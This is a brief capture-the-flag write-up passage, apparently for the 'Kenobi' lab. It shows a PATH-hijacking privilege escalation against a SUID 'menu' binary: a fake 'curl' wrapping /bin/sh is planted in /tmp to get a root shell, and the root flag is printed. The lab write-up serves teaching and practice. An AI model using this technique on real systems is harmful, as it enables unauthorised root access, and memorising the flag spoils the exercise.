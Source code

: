 ### We need to manipulating the path to gain a root shell as usual
```
cd /tmp
```
```
echo /bin/sh > curl
```
```
chmod 777 curl
```
```
export PATH=/tmp:$PATH
```
```
/usr/bin/menu
```
```
kenobi@kenobi:~$ cd /tmp
kenobi@kenobi:/tmp$ echo /bin/sh > curl
kenobi@kenobi:/tmp$ chmod 777 curl
kenobi@kenobi:/tmp$ export PATH=/tmp:$PATH
kenobi@kenobi:/tmp$ /usr/bin/menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :1
# 
```

## Root Flag
```
# cat /root/root.txt
177b3cd8562289f37382721c28381f02
```

Done !!🙂
